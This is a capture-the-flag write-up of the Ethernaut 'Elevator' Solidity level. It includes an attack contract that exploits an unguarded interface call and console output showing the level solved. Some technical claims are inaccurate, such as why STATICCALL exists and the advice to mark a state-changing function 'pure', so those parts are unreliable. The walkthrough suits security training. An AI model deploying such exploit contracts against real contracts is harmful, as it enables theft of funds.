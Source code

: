 <img src="https://ethernaut.openzeppelin.com/imgs/BigLevel11.svg">


# Target Contract Review

Given contract.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface Building {
  function isLastFloor(uint) external returns (bool);
}


contract Elevator {
  bool public top;
  uint public floor;

  function goTo(uint _floor) public {
    Building building = Building(msg.sender);

    if (! building.isLastFloor(_floor)) {
      floor = _floor;
      top = building.isLastFloor(floor);
    }
  }
}
```
Challenge's message.

>This elevator won't let you reach the top of your building. Right?

This Solidity code represents an elevator contract with a corresponding interface for a building. 

- The elevator contract (**Elevator**) keeps track of the current floor and whether it has reached the top floor.
- The **goTo** function is used to move the elevator to a specified floor.
- The **Building** interface defines a single function **isLastFloor** that takes a floor number as an argument and returns a boolean value indicating whether it is the last floor in the building.

In the **goTo** function, the contract checks if the specified floor is not the last floor by calling the **isLastFloor** function of the **building** instance (which is the contract that called the **goTo** function). If it is not the last floor, the **floor** variable is updated with the new floor number, and the **top** variable is set based on whether the new floor is the last floor. The code is missing some essential details such as the implementation of the **Building** interface and the deployment of the contracts, but this is the basic idea behind this elevator contract.

## Missing State-Modifying Functions

Smart contracts are self-executing programs that automatically enforce the rules and regulations of a contract. One of the main advantages of smart contracts is that they are transparent and immutable, but this also means that once deployed, the code cannot be changed. Therefore, it is important to ensure that the code is secure before deployment.

One potential security pitfall in Solidity is the use of state-modifying functions that are incorrectly labelled as **constant/pure/view** functions. In Solidity versions prior to 0.5.0, it was possible to modify state variables within a constant/pure/view function using assembly code. However, in solc 0.5.0 and later versions, this is no longer possible due to the use of the **STATICCALL** opcode.

The STATICCALL opcode is a **read-only call** that is similar to the CALL opcode, but with the added constraint that **it does not modify the state of the contract**. This opcode was introduced to **improve gas efficiency by allowing the EVM to avoid the overhead of tracking the modifications made by a function**. However, this also means that any state-modifying code that is executed within a function labelled as constant/pure/view will now result in a revert.

For example, consider the following Solidity code:

```solidity
pragma solidity >=0.5.0;

contract MyContract {

  uint256 public myVar;

  function myFunction(uint256 _value) public constant returns (uint256) {
      myVar = _value;
      return myVar;
  }
}
```
This code defines a contract with a public state variable myVar and a state-modifying function myFunction that sets the value of myVar. However, the myFunction function is labelled as constant, which is incorrect because it modifies the state of the contract.

When this contract is compiled with solc 0.5.0 or later, attempting to call the myFunction function will result in a revert because of the use of the STATICCALL opcode. The correct way to label this function would be to remove the constant keyword and label it as **pure** instead, since it does not read or modify the state of the contract.

## Security Practice

There are different ways of missing state-modifying functions that we may come accross in smart contract auditing. What is more, this issue causes a gas increment so you can notify this bug in your report. In this challenge, the **isLastFloor()** function should be marked as `view` for prevent the any dangerous override action.

Let's look at these contract examples to understand better.

```solidity
interface Building {
  function isLastFloor(uint) external returns (bool);
}

// Vulnerable Code
```

```solidity
interface Building {
  function isLastFloor(uint) external view returns (bool);
}

// Safe Code
```

As you can see, it is easy to stay secure. The important point is to check the function's features correspond to the process in the function and not neglect to use gas-safer opcodes. You can get more information about opcodes from [here.](https://ethereum.org/en/developers/docs/evm/opcodes/)

# Subverting

This contract gets an instance from **Building** interface in the **goTo()** function and calls the vulnerable **isLastFloor(uint)** function. The reason for being vulnerable of this function is it just returns a boolean value and **it doesn't change or define anything**. **That's why it allows modification to the function that the attacker wants**. 

Let's continue to explain the vulnerability with our attack contract. Here is our attack contract.

```solidity
pragma solidity ^0.8.17;

interface IElevator {
  function goTo(uint) external;
}

contract Attack{

    bool x = false;

    function attack(address _target)external{
        IElevator target = IElevator(_target);
        target.goTo(1);
    }

    function isLastFloor(uint)external returns(bool){
        if(x){
            return true;
        }
        x = true;
        return false;
    }
}
```

In our attack contract, firstly we defined an interface named **IElavator** which will help us to call **goTo()** function from the target contract. Secondly, we have boolean type of a **x** variable which defined as false when the defination. Next, we have an **attack()** function that takes a target contract's address as an argument. It creates an instance with **IElevator** interface and call the **goTo()** function from this instance. Finally, there is **isLastFloor()** function which will have call from our **goTo()** function to check the last floor. But, when its first check, the function returns false and bypass the `! building.isLastFloor(_floor)` statement. In the second check, it returns true and set top vairable as true. Thus, we will solve the challenge.

In the first step, get new instance from the ethernaut and check the top variable's value.

```js
await contract.top()
false
````

Deploy our attack contract and start to attack. You can get this tx from [here.](https://sepolia.etherscan.io/tx/0x11d571b1449c9fd3c48bf3aedfe8bd0d6eb968ed726ee921de4605ec37e39cb8)

After then, check the top's value again. We solved the elevator challenge.

```js
await contract.top()
true
```

Ethernaut's message:

>You can use the view function modifier on an interface in order to prevent state modifications. The pure modifier also prevents functions from modifying the state. Make sure you read Solidity's documentation and learn its caveats. An alternative way to solve this level is to build a view function which returns different results depends on input data but don't modify state, e.g. gasleft().

**_by wasny0ps_**

